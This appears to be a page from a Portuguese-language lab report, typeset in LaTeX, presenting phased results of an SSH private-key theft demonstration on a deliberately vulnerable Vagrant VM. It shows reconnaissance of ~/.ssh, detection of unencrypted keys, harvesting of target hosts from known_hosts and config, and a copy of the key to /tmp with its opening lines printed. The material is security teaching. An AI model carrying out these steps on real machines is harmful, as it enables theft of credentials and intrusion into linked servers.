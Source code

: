 \documentclass[12pt]{article}
\begin{document}
\subsubsection{Resultados: VM Alvo (Vulnerável)}

\textbf{Fase 1 - Reconhecimento:}
\begin{verbatim}
[1.1] Verificando existência do diretório .ssh do usuário...
total 36
-rw------- 1 vagrant vagrant  487 authorized_keys
-rw-rw-r-- 1 vagrant vagrant  176 config
-rw------- 1 vagrant vagrant 1675 id_rsa          ← ENCONTRADA!
-rw-r--r-- 1 vagrant vagrant  398 id_rsa.pub
-rw-rw-r-- 1 vagrant vagrant   66 known_hosts
-rw------- 1 vagrant vagrant  411 vps_backup      ← ENCONTRADA!
-rw-r--r-- 1 vagrant vagrant  101 vps_backup.pub
\end{verbatim}

\textbf{Fase 2 - Chaves Descobertas:}
\begin{itemize}
    \item ✅ \textbf{id\_rsa ENCONTRADA:} Chave RSA 2048 bits
    \item ✅ \textbf{vps\_backup ENCONTRADA:} Chave ED25519 personalizada
    \item ✅ Permissões: 600 (corretas, mas sem proteção adicional)
\end{itemize}

\textbf{Fase 3 - Análise de Proteção:}
\begin{verbatim}
[3.2] Verificando se chaves estão protegidas por senha...
Verificando: /home/vagrant/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----    ← SEM CRIPTOGRAFIA!
\end{verbatim}

\textbf{Observação Crítica:} Chaves sem senha começam com \texttt{-----BEGIN RSA PRIVATE KEY-----}. Chaves protegidas começam com \texttt{-----BEGIN ENCRYPTED PRIVATE KEY-----}.

\textbf{Fase 4 - Destinos Revelados (CRÍTICO):}
\begin{verbatim}
[4.1] Lendo arquivo known_hosts...
54.123.45.67 ecdsa-sha2-nistp256 ...    ← IP de VPS AWS!

[4.3] Arquivo ~/.ssh/config ENCONTRADO:
Host meu-vps-aws
  HostName 54.123.45.67
  User ubuntu
  IdentityFile ~/.ssh/id_rsa

Host backup-server
  HostName 192.168.1.100
  User backup
  IdentityFile ~/.ssh/vps_backup
\end{verbatim}

\textbf{Fase 6 - Exfiltração Bem-Sucedida:}
\begin{verbatim}
[6.1] Tentando copiar chave privada para /tmp...
✓ Chave copiada para /tmp/stolen_key_vagrant.pem

[6.2] Verificando se chave roubada é legível...
-rw------- 1 vagrant vagrant 1.7K /tmp/stolen_key_vagrant.pem
Primeiras linhas da chave roubada:
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAmpHB1Ix2oR8mpUgmbFUmSVbXiyRN4kfspEjrJ8qo...
\end{verbatim}
\end{document}
